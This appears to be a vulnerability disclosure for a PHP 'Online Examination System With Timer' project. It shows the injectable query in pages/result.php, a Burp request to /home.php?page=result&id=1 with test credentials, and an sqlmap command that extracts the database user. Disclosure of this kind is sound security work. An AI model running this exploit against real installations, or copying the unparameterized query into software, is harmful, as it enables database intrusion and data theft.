

## Online Examination System With Timer

## SQL Injection on `result.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/index.php
glenn@gmail.com
glenn
```

### Affected Page:

```
/home.php?page=result
```

The potential injection point is located in `result.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# home.php
@$page = $_GET['page'];
if($page != '')
{
	if($page == "exam")
	{
		include("pages/exam.php");
	}
	else if($page == "result")
	{
		include("pages/result.php");
	}
	else if($page == "myscores")
	{
		include("pages/myscores.php");
	}
}
```

```php
# pages/result.php
<?php 
   $examId = $_GET['id'];
   $selExam = $conn->query("SELECT * FROM exam_tbl WHERE ex_id='$examId' ")->fetch(PDO::FETCH_ASSOC);
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /home.php?page=result&id=1 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/home.php?page=exam&id=13
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**


